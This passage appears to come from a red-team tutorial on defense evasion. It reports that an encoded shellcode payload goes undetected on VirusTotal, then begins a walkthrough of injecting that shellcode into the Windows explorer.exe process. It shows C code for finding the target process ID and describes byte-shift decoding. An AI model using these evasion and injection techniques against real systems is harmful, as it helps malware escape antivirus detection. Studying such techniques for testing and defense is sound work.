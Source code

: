 ![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Screen21.png?raw=true)

Test this raw payload on virus total.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Screen22.png?raw=true)

No antivirus identifies it, but to make things clear here, until now we are working with a raw payload which is only the shellcode, not a full working executable file.

Now we will take this new undetectable shellcode and inject it inside a process in windows, and in this case, we will inject it inside explorer.exe process.

The first part of the code is the GetProcId function, its main purpose to give it the process name and it will communicate with the operating system to find the process id of this process.

```
DWORD ProcId = 0;

int GetProcId(char* ProcName)
{
	PROCESSENTRY32 pe32;
	HANDLE hSnapshot = NULL;
	pe32.dwSize = sizeof( PROCESSENTRY32 );
	hSnapshot = CreateToolhelp32Snapshot( TH32CS_SNAPPROCESS, 0 );
	if ( Process32First( hSnapshot, &pe32 ) )
	{
		do{
			if( strcmp( pe32.szExeFile, ProcName ) == 0 )
				break;
		}while( Process32Next( hSnapshot, &pe32 ) );
	}

	if( hSnapshot != INVALID_HANDLE_VALUE )
		CloseHandle( hSnapshot );

	ProcId = pe32.th32ProcessID;
	return ProcId;
}
```

The second part is an iteration over the encoded shellcode to decode it by subtracting one from every byte.

```
int main(int argc, char **argv){

	int process_id;	
	char* ProcName;
	ProcName = "explorer.exe";
	process_id = GetProcId(ProcName);
	printf("Process ID is %d\n", process_id);

```